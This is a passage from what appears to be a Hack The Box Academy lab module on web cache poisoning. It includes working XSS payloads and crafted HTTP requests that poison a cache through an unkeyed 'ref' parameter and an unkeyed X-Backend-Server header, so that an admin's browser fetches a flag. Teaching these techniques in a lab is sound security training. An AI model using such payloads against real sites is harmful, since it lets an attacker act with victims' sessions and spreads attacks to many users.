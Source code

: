 ```js
<script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();</script>

```

This results in the following cache poisoning request, assuming our victim visits the site with the `language=de` parameter (after adding `">` for XSS injection):

```http
GET /index.php?language=de&ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%27GET%27,%20%27/admin.php?reveal_flag=1%27,%20true);xhr.withCredentials%20=%20true;xhr.send();%3C/script%3E HTTP/1.1
Host: webcache.htb

```

After poisoning the cache and waiting for a while, the admin should visit the site, trigger our XSS payload and reveal the flag for us.

## Unkeyed Headers

Similarly to unkeyed GET parameters, it is quite common to find unkeyed HTTP headers that influence the response of the web server. In the current web application, assume we found the custom HTTP header `X-Backend-Server` which seems to be a left-over debug header that influences the location a debug script is loaded from:

![image](https://academy.hackthebox.com/storage/modules/189/wcp/wcp_5.png)

We can apply the same methodology from before to determine that this header is unkeyed. Since this header is reflected without sanitization, we can also use it to exploit an XSS vulnerability. We can thus use the header to deliver the same payload as before with the following request:

```http
GET /index.php?language=de HTTP/1.1
Host: webcache.htb
X-Backend-Server: testserver.htb"></script><script>var xhr=new XMLHttpRequest();xhr.open('GET','/admin.php?reveal_flag=1',true);xhr.withCredentials=true;xhr.send();//

```


# Web Cache Poisoning Attacks

Web cache poisoning is typically used to distribute a different underlying vulnerability in the web application to a large number of users. This makes the exploitation of web cache poisoning very dependent on the specific web application. Additionally, poisoning the cache is often not trivial. In real-world scenarios, many users are accessing the web application at the same time as we are. Therefore, when we request a page it is most likely already cached and we are only served the cached response. In these cases, we need to send our malicious request at the exact time that the cache expires to get the web cache to store the response. Getting this timing right involves a lot of trial and error. However, it can be significantly easier if the web server reveals information about the expiry of the cache.
